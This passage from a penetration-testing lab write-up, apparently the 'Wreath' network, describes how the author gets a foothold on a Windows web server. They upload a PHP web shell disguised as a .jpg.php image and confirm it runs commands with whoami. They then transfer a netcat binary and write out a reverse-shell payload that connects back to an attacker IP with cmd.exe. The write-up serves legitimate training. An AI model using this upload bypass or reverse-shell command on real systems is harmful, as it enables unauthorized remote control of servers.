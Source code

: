 <span style="overflow: hidden; display: inline-block; margin: 0.00px 0.00px; border: 0.00px solid #000000; transform: rotate(0.00rad) translateZ(0px); -webkit-transform: rotate(0.00rad) translateZ(0px); width: 227.44px; height: 113.20px;">![](_reports/Wreath/image3.png)</span>

<span>I then uploaded the malicious image file (</span><span class="c0">0xd4y-image.jpg.php</span><span class="c1">):</span>

<span style="overflow: hidden; display: inline-block; margin: 0.00px 0.00px; border: 0.00px solid #000000; transform: rotate(0.00rad) translateZ(0px); -webkit-transform: rotate(0.00rad) translateZ(0px); width: 224.50px; height: 110.82px;">![](_reports/Wreath/image51.png)</span>

<span>Visiting the uploaded script on</span> <span class="c0">resources/uploads/0xd4y-image.jpg.php</span><span>reveals that it got successfully uploaded. To test if the image successfully is getting executed as php, I gave the command of</span> <span class="c0">whoami</span><span class="c1"> to the parameter cmd.</span>

<span style="overflow: hidden; display: inline-block; margin: 0.00px 0.00px; border: 0.00px solid #000000; transform: rotate(0.00rad) translateZ(0px); -webkit-transform: rotate(0.00rad) translateZ(0px); width: 507.50px; height: 100.00px;">![](_reports/Wreath/image63.png)</span>

<span>And the php web shell works! The next step is to get a reverse shell. After identifying the target as a 64 bit machine by using</span> <span class="c0">systeminfo</span><span>, I uploaded a 64bit netcat binary</span><sup>[[12]](#ftnt12)</sup><span> </span><span>and called it</span> <span class="c0">0xd4y-nc.exe</span><span>. I then set up an HTTP server on my local box with python and downloaded the binary onto the system with curl. To get a reverse shell, I used a simple nc reverse shell payload:</span> <span class="c0">powershell.exe%20C:\xampp\htdocs\resources\uploads\0xd4y-nc.exe%2010.50.112.6%20443%20-e%20cmd.exe</span>
